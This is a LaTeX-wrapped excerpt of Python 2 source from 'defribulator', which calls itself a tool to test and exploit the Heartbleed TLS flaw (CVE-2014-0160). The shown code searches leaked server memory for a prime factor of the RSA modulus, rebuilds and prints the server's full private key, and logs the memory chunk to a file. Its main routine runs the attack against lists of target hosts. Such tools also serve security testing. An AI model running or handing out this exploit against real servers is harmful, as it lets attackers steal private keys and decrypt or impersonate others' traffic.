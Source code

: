 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
    for offset in xrange (0, len (chunk) - keysize):
        p = long (''.join (["%02x" % ord (chunk[x]) for x in xrange (offset + keysize - 1, offset - 1, -1)]).strip(), 16)
        if gmpy.is_prime (p) and p != n and n % p == 0:
            if opts.verbose:
                print '\n\nFound prime: ' + str(p)
            e = 65537
            q = n / p
            phi = (p - 1) * (q - 1)
            d = gmpy.invert (e, phi)
            dp = d % (p - 1)
            dq = d % (q - 1)
            qinv = gmpy.invert (q, p)
            seq = Sequence()
            for x in [0, n, e, d, p, q, dp, dq, qinv]:
                seq.setComponentByPosition (len (seq), Integer (x))
            print "\n\n-----BEGIN RSA PRIVATE KEY-----\n%s-----END RSA PRIVATE KEY-----\n\n" % base64.encodestring(encoder.encode (seq))
            privkeydump = open("hb-certs/privkey_" + host + ".dmp", "a")
            privkeydump.write(chunk)
            return True

        else:
            return False

def main():
    print "\ndefribulator v1.20"
    print "A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)"
    allresults = ''

    # if a file is specified, loop through file
    if opts.filein:
        fileIN = open(opts.filein, "r")

        for line in fileIN:
            targetinfo = line.strip().split(":")
            if len(targetinfo) > 1:
                allresults = bleed(targetinfo[0], int(targetinfo[1]))
            else:
                allresults = bleed(targetinfo[0], opts.port)

            if allresults and (not opts.donotdisplay):
                print '%s' % (allresults)
        fileIN.close()

    else:
        if len(args) < 1:
            options.print_help()
            return
        allresults = bleed(args[0], opts.port)
        if allresults and (not opts.donotdisplay):
            print '%s' % (allresults)

    print

    if opts.rawoutfile:
        rawfileOUT.close()

    if opts.asciioutfile:
        asciifileOUT.close()

if __name__ == '__main__':
    main()
\end{verbatim}
\clearpage
\end{document}
